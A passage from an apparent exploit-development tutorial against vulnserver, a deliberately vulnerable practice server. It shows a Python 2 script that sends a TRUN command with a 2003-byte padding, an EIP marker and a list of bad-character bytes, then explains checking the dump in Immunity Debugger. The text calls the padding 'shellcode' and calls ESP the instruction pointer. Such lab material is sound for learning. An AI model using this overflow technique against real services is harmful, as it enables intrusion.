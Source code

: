 ```python
"\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

# Added to shellcode to identify the hex values with bad chars
shellcode = 'A' * 2003 + 'B' * 4 + badchars

def inject_shellcode(host, port, payload):

        while True:
                try:
                        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.connect((host, port))

                        # Sending shellcode to know if EIP is overwritten.
                        s.send(('TRUN /.:/' + payload))
                        s.close()

                except:
                        print "Error connecting to the server.."
                        sys.exit()


if __name__ == '__main__':
        inject_shellcode(host, port, shellcode)
```
> Since vulnserver is running on 32bit architecture, we'll change to python2 a bit further to avoid issues on the output of immunity and vulnserver

> Executing the script, it will overflow again the TRUN and overwrite the EIP.
> Follow the hex dump from the Instruction Pointer (ESP) to investigate for bad chars.

![follow_esp](https://github.com/catx0rr/bufferoverflow/blob/master/vulnserver/img/follow_esp.png)
> On the tutorial, vulnserver has no bad characters (or maybe there is)
> some example of bad characters.
